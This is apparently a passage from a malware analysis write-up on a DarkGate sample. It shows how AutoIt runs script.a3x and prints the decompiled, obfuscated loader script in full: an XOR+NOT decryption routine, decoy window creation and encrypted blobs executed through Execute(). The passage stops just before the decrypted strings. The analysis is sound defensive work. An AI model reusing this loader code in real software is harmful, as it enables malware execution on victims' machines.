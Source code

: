 In the process tree, this `Autoit3.exe` file will load the script.a3x with the command:
``` "c:\temp\test\Autoit3.exe" c:\temp\test\script.a3x ```

Additionally, attempting to execute this script manually will not work, judging by the (on the nose) dialogue box:

![Failed Execution](/public/images/darkgate-3-return-of-the-temp/failedautoitexecution.png)

I use myAut2Exe to analyze the `script.a3x` file:

![scripta3x](/public/images/darkgate-3-return-of-the-temp/scripta3x.png)

```
GUICreate("cfrygtvwk", 815, 365)
Func STRUCTT($TBYTE, $VVALUE)
	Return DllStructSetData($TBYTE, 1, $VVALUE)
EndFunc
Func _ENCRYPT($VVALUE, $SKEY)
	GUICreate("mttmzjfbk", 772, 249)
	$TBYTE = DllStructCreate("BYTE")
	GUICreate("znsrmgkpx", 888, 876)
	Local $S_ENCRYPTED
	GUICreate("nvqfrasel", 618, 839)
	Local $IKEYALT = BinaryLen($SKEY)
	GUICreate("wquyswcls", 369, 390)
	For $I = 1 To $IKEYALT
		$IKEYALT = BitXOR(BinaryMid($SKEY, $I, 1), $IKEYALT)
	Next
	GUICreate("hkqxizmpr", 874, 378)
	For $I = 1 To BinaryLen($VVALUE)
		$S_ENCRYPTED &= Chr(STRUCTT($TBYTE, BitNOT(BitXOR(BinaryMid($VVALUE, $I, 1), $IKEYALT))))
	Next
	GUICreate("pimajpopk", 802, 197)
	Return $S_ENCRYPTED
EndFunc
#NoTrayIcon
Local $DATA
$DATA = Execute(_ENCRYPT(BinaryToString("0xB5AF848998939A9EC2AC83868FB88F8B8EC2AC83868FA59A8F84C2AAB98998839A9EAC9F8686BA8B9E82C6CADBDCC3C6DDD3DADFDAC3C6C8B29BAEA39ABDADB3C8C3"), "XqDIpWGY"))
$PT = Execute(_ENCRYPT(BinaryToString("0xAE8686B99E989F899EA9988F8B9E8FC2C888939E8FB1DDD3DADFDAB7C8C3"), "XqDIpWGY"))
Execute(_ENCRYPT(BinaryToString("0xAE8686A98B8686C2C8818F98848F86D9D8C48E8686C8C6C8A8A5A5A6C8C6C8BC83989E9F8B86BA98859E8F899EC8C6C89A9E98C8C6AE8686B99E989F899EAD8F9EBA9E98C2CE9A9EC3C6C883849EC8C6DDD3DADFDACAC6C88E9D85988EC8C6DA92DEDAC6C88E9D85988EC0C8C6849F8686C3"), "XqDIpWGY"))
Execute(_ENCRYPT(BinaryToString("0xAE8686B99E989F899EB98F9EAE8B9E8BC2CE9A9EC6DBC6CE8E8B9E8BC3"), "XqDIpWGY"))
Execute(_ENCRYPT(BinaryToString("0xAE8686A98B8686C2C89F998F98D9D8C48E8686C8C6C883849EC8C6C8AF849F87BD83848E859D99C8C6C89A9E98C8C6AE8686B99E989F899EAD8F9EBA9E98C2CE9A9EC3C6C8869A8B988B87C8C6DAC3"), "XqDIpWGY"))
; DeTokenise by myAut2Exe >The Open Source AutoIT/AutoHotKey script decompiler< 2.16 build(215)
```

This script: 
- Decrypts embedded binary blobs using a custom XOR + NOT cipher. It then executes the strings via `Execute()`.
  - Starts with the lenth of the key then iteratively XORs each byte.
  - Each byte of $VALUE is XORed with the supplied key. 
  - After XORed with the key, each byte of $VALUE is bitwise NOTed. 
- It also creates GUI windows with random titles and dimensions, presumably for anti-analysis.

Just because, I wrote a simple script to decrypt XOR + NOT ciphers and saves the output to a JSON: [AutoDeGOder](https://github.com/grepstrength/autodegoder)

Using this script, the decrypted strings are: 
```